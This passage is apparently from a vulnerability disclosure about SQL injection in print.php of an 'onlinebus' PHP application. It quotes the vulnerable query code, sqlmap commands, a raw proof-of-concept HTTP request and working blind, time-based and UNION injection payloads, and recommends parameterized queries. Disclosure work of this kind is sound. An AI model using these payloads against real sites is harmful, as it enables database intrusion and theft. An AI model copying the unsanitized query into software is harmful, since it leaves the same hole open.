 open myprofile.php

![1706533735063](https://github.com/gtqbhksl/weekdays_something/assets/113713406/78f12399-b215-4974-8433-33614b1b4f3c)




# 7. print.php sql injection

![image](https://github.com/gtqbhksl/weekdays_something/assets/113713406/b7a2b3d6-2f29-4969-b679-9f6486b8936d)

in print.php source code

```
$pid=$_GET['pid'];
$sel="SELECT * FROM `transactions` WHERE `T_No.` =$pid";
```

![image](https://github.com/gtqbhksl/weekdays_something/assets/113713406/80c6bcb3-41a0-4142-9297-167c25c66a70)

can use `sqlmap -u http://onlinebus/print.php?pid=52` to verify it

Parameterized queries or precompiled statements should be used to ensure that user input is processed and escaped correctly. This can prevent attackers from tampering with query logic by injecting malicious code.

POC:

```
GET /onlinebus/print.php?pid=52 HTTP/1.1
Host: 192.168.253.1
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/116.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://onlinebus/sindex.php
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=jmetab2u149tgvq0m6nh6mbeh9
Connection: close

```

`sqlmap -r r.txt`

![1706534379479](https://github.com/gtqbhksl/weekdays_something/assets/113713406/9ab5fee0-9e32-4322-90d8-c756045535e4)

```
Parameter: pid (GET)
    Type: boolean-based blind
    Title: Boolean-based blind - Parameter replace (original value)
    Payload: pid=(SELECT (CASE WHEN (8557=8557) THEN 52 ELSE (SELECT 9263 UNION SELECT 8903) END))

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: pid=52 AND (SELECT 3421 FROM (SELECT(SLEEP(5)))mwzB)

    Type: UNION query
    Title: Generic UNION query (NULL) - 14 columns
    Payload: pid=52 UNION ALL SELECT NULL,NULL,NULL,NULL,NULL,NULL,CONCAT(0x71706b7a71,0x4679574546665a5863784855456c626f596464586d47544f77764f6e624841444b58685a4d5a4251,0x7170787a71),NULL,NULL,NULL,NULL,NULL,NULL,NULL-- -

```
